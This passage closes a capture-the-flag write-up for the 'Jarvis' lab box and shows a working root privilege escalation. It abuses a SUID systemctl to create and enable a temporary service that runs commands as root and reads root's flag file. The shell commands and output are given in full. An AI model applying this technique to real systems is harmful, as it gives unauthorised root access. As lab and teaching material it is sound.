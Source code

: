 [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid) show how
to exploit that misconfiguration.
First we create a temporary file:

    pepper@jarvis:~$ TF=$(mktemp).service

We write a service file inside. This service run the command `id` and put the
result in a file:

    pepper@jarvis:~$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "id > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF

We link the service using sysemctl:

    pepper@jarvis:~$ /bin/systemctl link $TF
    Created symlink /etc/systemd/system/tmp.iyGBjTyKtn.service → /tmp/tmp.iyGBjTyKtn.service.

We start the service using sysemctl:

    pepper@jarvis:~$ /bin/systemctl enable --now $TF
    Created symlink /etc/systemd/system/multi-user.target.wants/tmp.iyGBjTyKtn.service → /tmp/tmp.iyGBjTyKtn.service.

We get the result of the `id` command in `/tmp/output`.
    pepper@jarvis:~$ cat /tmp/output 
    uid=0(root) gid=0(root) groups=0(root)

The command was executed. Now we create a second service which will output the
root's flag:

    pepper@jarvis:~$ TF2=$(mktemp).service
    pepper@jarvis:~$ echo '[Service]
    > Type=oneshot
    > ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
    > [Install]
    > WantedBy=multi-user.target' > $TF2
    pepper@jarvis:~$ /bin/systemctl link $TF2
    Created symlink /etc/systemd/system/tmp.ZcSgmH8PDr.service → /tmp/tmp.ZcSgmH8PDr.service.
    pepper@jarvis:~$ /bin/systemctl enable --now $TF2
    Created symlink /etc/systemd/system/multi-user.target.wants/tmp.ZcSgmH8PDr.service → /tmp/tmp.ZcSgmH8PDr.service.
    pepper@jarvis:~$ cat /tmp/output 
    d41d8<redacted>

# Wrapping up

This box was a nice one. It has been a long time since my last usage of
`sqlmap --os-shell` command.
The movement from `www-data` to `pepper` was easy and the privilege
escalation let me learn new things about systemd.

